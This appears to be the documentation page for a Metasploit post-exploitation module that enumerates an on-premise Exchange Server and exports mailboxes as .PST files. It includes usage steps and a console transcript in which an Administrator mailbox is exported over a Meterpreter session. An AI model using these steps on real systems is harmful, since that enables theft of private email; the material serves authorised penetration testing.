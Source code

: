 ## Vulnerable Application

  This module will gather information from an on-premise Exchange Server running on the target machine.

  Two actions are supported:

  `LIST` (default action): List basic information about all Exchange servers and mailboxes hosted on the target.

  `EXPORT`: Export and download a chosen mailbox in the form of a .PST file, with support for an optional filter keyword.

  It requires that the effective Meterpreter session user be assigned to the "Organization Management" role group.

## Verification Steps

  1. Start msfconsole
  2. Get meterpreter session on a Windows target running an Exchange Server
  3. Do: `use post/windows/gather/exchange`
  4. Do: `set SESSION <session id>`
  5. Do: `run`

## Options

### FILTER

  Filter to use when exporting a mailbox.

  See [Microsoft documentation](https://docs.microsoft.com/en-us/exchange/filterable-properties-for-the-contentfilter-parameter)
  for valid syntax.

  Unused for LIST action, optional for EXPORT action.

### MAILBOX

  Mailbox to export. Can be a mailbox's email address or display name.

  Unused for LIST action, required for EXPORT action.

## Extracted data

### LIST action
  For every server:

  - Server name
  - Server version
  - Server role
  - For every mailbox in server:
    - Mailbox display name
    - Mailbox email addresses
    - Mailbox creation date
    - Mailbox address list membership
    - For every folder in mailbox:
      - Folder Path
      - Items in folder
      - Folder size
      - Newest item received date

### EXPORT action
  .PST file with the chosen mailbox's mail items

## Scenarios

### Windows Server 2012 R2 with On-Premise Exchange Server 2010

```
msf6 exploit(multi/handler) > use post/windows/gather/exchange
msf6 post(windows/gather/exchange) > set SESSION 1
SESSION => 1
msf6 post(windows/gather/exchange) > run -a LIST

[+] Exchange Server is present on target machine
[+] PowerShell is present on target machine
[+] Listing reachable servers and mailboxes:
----------
Server:
- Name: WIN-49S7K9MJUAF
- Version: Version 14.3 (Build 123.4)
- Role: Mailbox, ClientAccess, HubTransport
-----
Mailboxes:
---
- Display Name: Administrator
- Email Addresses: SMTP:Administrator@example.corp
- Creation date: 12/02/2020 01:01:43
- Address list membership: \Mailboxes(VLV) \All Mailboxes(VLV) \All Recipients(VLV) \Default Global Address List \All Users
- (All folders are empty)
---

[...]

[*] Post module execution completed
msf6 post(windows/gather/exchange) > set MAILBOX "Administrator"
MAILBOX => Administrator
msf6 post(windows/gather/exchange) > run -a EXPORT

[+] Exchange Server is present on target machine
[+] PowerShell is present on target machine
[+] Exporting mailbox 'Administrator':
Exporting mailbox...
. Queued
. Queued
. Queued
. InProgress
. Completed
Exporting done
[*] Resulting export file size: 0.26 MB
[+] PST saved in: /home/user/.msf4/loot/20210309120402_default_192.168.1.70_PST_427036.pst
[*] Post module execution completed
msf6 post(windows/gather/exchange) >
```
